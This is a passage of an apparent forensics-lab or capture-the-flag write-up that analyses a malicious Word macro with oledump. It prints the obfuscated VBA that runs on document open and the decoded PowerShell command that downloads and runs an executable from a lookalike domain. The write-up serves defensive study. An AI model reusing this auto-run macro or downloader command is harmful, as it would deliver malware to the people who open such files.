 ```
$ python oledump_V0_0_75\oledump.py -s 10 -v export-folder\IPhone-Winners.doc

Attribute VB_Name = "iphoneevil"
Function lllllllll1l()
    Dim lllllllllll As String
    Dim llllllllll1 As String
    lllllllllll = Chr(97) [...] Chr(65)
    llllllllll1 = Chr(112) [...] Chr(100) & lllllllllll
    CreateObject(Chr(87) & Chr(83) & Chr(99) & Chr(114) & Chr(105) & Chr(112) & Chr(116) & Chr(46) & Chr(83) & Chr(104) & Chr(101) & Chr(108) & Chr(108)).Run llllllllll1, 0, True
End Function

$ python oledump_V0_0_75\oledump.py -s 9 -v export-folder\IPhone-Winners.doc

Attribute VB_Name = "eviliphone"
Attribute VB_Base = "1Normal.ThisDocument"
Attribute VB_GlobalNameSpace = False
Attribute VB_Creatable = False
Attribute VB_PredeclaredId = True
Attribute VB_Exposed = True
Attribute VB_TemplateDerived = True
Attribute VB_Customizable = True
Private Sub _
Document_open()
lllllllll1l
End Sub
```

The stream number 10 is obfuscated. I translated all the `Chr` function parameter into ASCII values and observed that it looks like base64. Here is the decoded payload (last line of the 10th stream) :

```
CreateObject(WScript.Shell).Run invoke-webrequest - Uri   'http://appIe.com/Iphone.exe' -OutFile 'C:\Temp\IPhone.exe' -UseDefaultCredentialÀ, 0, True
```

The malicious macro launch a downloading from the same domain as the user downloaded the infectied doc file, using Powershell.

## Q6. The macro downloaded a malicious file. Provide the full download URL.

Already answered in the previous question.

## Q7. Where was the malicious file downloaded to? (Provide the full path)

Already answered in the previous question.

## Q8. What is the name of the framework used to create the malware?
